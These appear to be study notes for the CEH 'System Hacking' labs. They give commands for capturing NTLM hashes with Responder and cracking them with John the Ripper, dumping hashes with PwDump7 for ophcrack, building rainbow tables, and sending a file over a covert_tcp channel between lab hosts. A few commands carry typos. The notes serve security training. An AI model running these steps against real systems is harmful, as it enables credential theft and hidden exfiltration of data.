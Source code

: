 # 6 - System Hacking

## Module 06 - System Hacking

**NTLM Hash crack :**

* esponder -I eth0
* usr\share\responder\logs --> Responder log location
* john /usr/share/responder/logs/ntlm.txt

**Rainbow table crack using Winrtgen :**

* Open winrtgen and add new table
* Select ntlm from Hash dropdown list.
* Set Min Len as 4, Max Len as 6 and Chain Count 4000000
* Select loweralpha from Charset dropdown list (it depends upon Password).
* rcrack\_gui.exe to crack hash with rainbow table

**Hash dump with Pwdump7 and crack with ophcrack :**

* `wmic useraccount get name,sid` --> Get user acc names and SID
* PwDump7.exe > c:\hashes.txt
* Replace boxes in hashes.txt with relevant usernames from step 1.
* Ophcrack.exe -> load -> PWDUMP File
* Tables -> Vista free -> select the table directory -> crack

###

### **Lab1 - Task1: Perform Active Online Attack to Crack the System's Password using Responder**

* **Linux:**
  * cd
  * cd Responder
  * chmox +x ./Responder.py
  * **sudo ./Responder.py -I eth0**
  * passwd: \*\*\*\*
* **Windows**
  * run
  * \CEH-Tools
* **Linux:**
  * Home/Responder/logs/SMB-NTMLv2-SSP-**\<Target IP>**txt
  * sudo snap install john-the-ripper
  * passwd: \*\*\*\*
  * **sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt**

### **Lab3-Task6: Covert Channels using Covert\_TCP**

* **Attacker:**
  * cd Desktop
  * mkdir Send
  * cd Send
  * echo "Secret"->message.txt
  * Place->Network
  * Ctrl+L
  * **smb://\<Target IP>**
  * Account & Password
  * copy and paste covert\_tcp.c
  * **cc -o covert\_tcp covert\_tcp.c**
* **Target:**
  * **tcpdump -nvvx port 8888 -I lo**
  * cd Desktop
  * mkdir Receive
  * cd Receive
  * File->Ctrl+L
  * smb://**\<Target IP>**
  * copy and paste covert\_tcp.c
  * cc -o covert\_tcp covert\_tcp.c
  * **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 9999 -dest\_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt**
  * **Tcpdump captures no packets**
* **Attacker**
  * **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 8888 -dest\_port 9999 -file /home/attacker/Desktop/send/message.txt**
  * Wireshark (message string being send in individual packet)
